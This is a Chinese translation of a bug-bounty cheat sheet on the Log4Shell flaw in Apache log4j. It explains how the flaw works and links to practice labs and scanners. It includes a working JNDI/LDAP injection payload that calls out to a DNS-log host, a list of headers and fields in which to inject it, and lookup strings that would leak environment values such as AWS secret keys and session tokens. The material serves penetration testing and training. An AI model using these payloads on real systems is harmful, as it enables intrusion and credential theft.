

# Log4j 漏洞说明书

> 原文：<https://infosecwriteups.com/log4j-vulnerability-cheatsheet-66b7aeabc607?source=collection_archive---------2----------------------->

它是如何工作的，在哪里练习，以及如何识别



Bug 赏金提示::Log4j 漏洞备忘单

# 描述

如果记录用户控制的字符串，Java 日志库 log4j 存在未经验证的 RCE 漏洞。CVE-2021–44228(日志 4 外壳)

受影响的版本— Apache log4j 2.0-beta9 ≤ 2.14.1

# 它是如何工作的

特制的有效负载被注入到标头、输入字段或查询/正文参数中

```
[https://target.com/?test=${jndi:ldap://jv-${sys:java.version}-hn-${hostName}.qwe3er.dnslog.cn/exp}](https://target.com/?test=${jndi:ldap://jv-${sys:java.version}-hn-${hostName}.qwe3er.dnslog.cn/exp})
```

1.您可以使用服务`dnslog.cn`为测试创建您的 DNS 子域。示例:`qwe3er.dnslog.cn`

2.使用这个子域创建一个有效负载，并随请求一起发送。一段时间后检查对 DNS 服务的请求，以确认成功回拨

3.您应该会收到一个类似的 DNS 服务请求(主机和 Java 版本):`jv-11.0.13-hn-73a957d15746.qwe3er.dnslog.cn`

# 测试环境

您可以使用提供的测试环境来检查此漏洞的行为

[](https://github.com/leonjza/log4jpwn) [## GitHub-Leon jza/log 4 jpwn:log4j rce 测试环境和 poc

### log4j rce 测试环境参见:https://www.lunasec.io/docs/blog/log4j-zero-day/使用包含的 python poc

github.com](https://github.com/leonjza/log4jpwn) [](https://github.com/christophetd/log4shell-vulnerable-app) [## GitHub-Christophe TD/log 4 shell-vulnerable-app:Spring Boot web 应用程序易受…

### 此存储库包含易受 CVE 攻击的 Spring Boot web 应用程序-2021-44228，昵称为 Log4Shell。它使用 Log4j…

github.com](https://github.com/christophetd/log4shell-vulnerable-app) 

# 挑战和实验室(房间)

您可以使用创建的挑战、实验室(房间)来练习此漏洞

[](https://pentesterlab.com/exercises/log4j_rce/course) [## Log4j RCE

### 这个挑战涵盖了 Log4j 中最新的 RCE

pentesterlab.com](https://pentesterlab.com/exercises/log4j_rce/course) [](https://tryhackme.com/room/solar) [## TryHackMe | Solar，利用 log4j

### 探索 CVE-2021-44228，log4j 中的一个漏洞，它几乎影响了世界上所有的软件。

tryhackme.com](https://tryhackme.com/room/solar) 

# 如何识别(服务)

您可以使用这些网站来为您的有效负载创建 DNS 地址(令牌)

[https://canarytokens.org](https://canarytokens.org)(使用令牌类型:Log4Shell)

[https://dnslog.cn](https://dnslog.cn)

[https://app.interactsh.com](https://app.interactsh.com)

# 如何识别(扫描仪)

您可以使用这些扫描器来检查目标网站是否易受攻击

[](https://github.com/fullhunt/log4j-scan) [## GitHub - fullhunt/log4j-scan:一个全自动、精确和广泛的扫描器，用于查找 log4j…

### 一个全自动，准确，广泛的扫描程序，用于查找易受攻击的 log4j 主机，支持 URL 列表…

github.com](https://github.com/fullhunt/log4j-scan) [](https://github.com/adilsoybali/Log4j-RCE-Scanner) [## GitHub-adilsoybali/Log4j-RCE-Scanner:Log4j 的远程命令执行漏洞扫描程序。

### 使用此工具，您可以在多个位置扫描 Apache Log4j 上的远程命令执行漏洞 CVE-2021-44228

github.com](https://github.com/adilsoybali/Log4j-RCE-Scanner) 

# 可以注入有效载荷的位置列表

电子邮件标题、用户名、密码、电子邮件地址、文件名、查询/正文、文件内容、文档/图像 EXIF 或这些标题中的任何一个:

```
Authorization
Cache-Control
Cf-Connecting_ip
Client-Ip
Contact
Cookie
Forwarded-For-Ip
Forwarded-For
Forwarded
If-Modified-Since
Originating-Ip
Referer
True-Client-Ip
User-Agent
X-Api-Version
X-Client-Ip
X-Forwarded-For
X-Leakix
X-Originating-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-Ip
X-Wap-Profile
Authorization: Basic
Authorization: Bearer
Authorization: Oauth
Authorization: Token
```

# 可以提取什么信息

```
${hostName}
${sys:user.name}
${sys:user.home}
${sys:user.dir}
${sys:java.home}
${sys:java.vendor}
${sys:java.version}
${sys:java.vendor.url}
${sys:java.vm.version}
${sys:java.vm.vendor}
${sys:java.vm.name}
${sys:os.name}
${sys:os.arch}
${sys:os.version}
${env:JAVA_VERSION}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:AWS_PROFILE}
${env:AWS_CONFIG_FILE}
${env:AWS_ACCESS_KEY_ID}
```

*继续阅读……*

🔗[如何找到你的第一个 Bug:Bug 赏金的动机和技巧](https://therceman.medium.com/how-to-find-your-first-bug-motivation-and-tips-for-bug-bounty-hunting-5e7343066d0c)
🔗[$ 350 XSS 15 分钟](https://medium.com/bugbountywriteup/350-xss-in-15-minutes-dcb74ad93d5f)
🔗[如何开始 Bug 赏金狩猎](https://therceman.medium.com/how-to-start-bug-bounty-hunting-94b1ff3dda27)

P.S .如果你有任何问题或需要进一步的指导，请随时加入我的 Discord 服务器。你可以联系我和其他有经验的虫子赏金猎人，他们总是愿意帮忙。

🔗[therceman.dev/discord](https://therceman.dev/discord)

分享臭虫奖励提示

🔸[LinkedIn.com/in/therceman](https://linkedin.com/in/therceman)

🔸[Twitter.com/therceman](https://twitter.com/therceman)

🔸[Telegram.me/therceman](https://telegram.me/therceman)

🔸[TikTok.com/@therceman](https://tiktok.com/@therceman)

🔸[YouTube.com/therceman](https://youtube.com/therceman)

最诚挚的问候，安东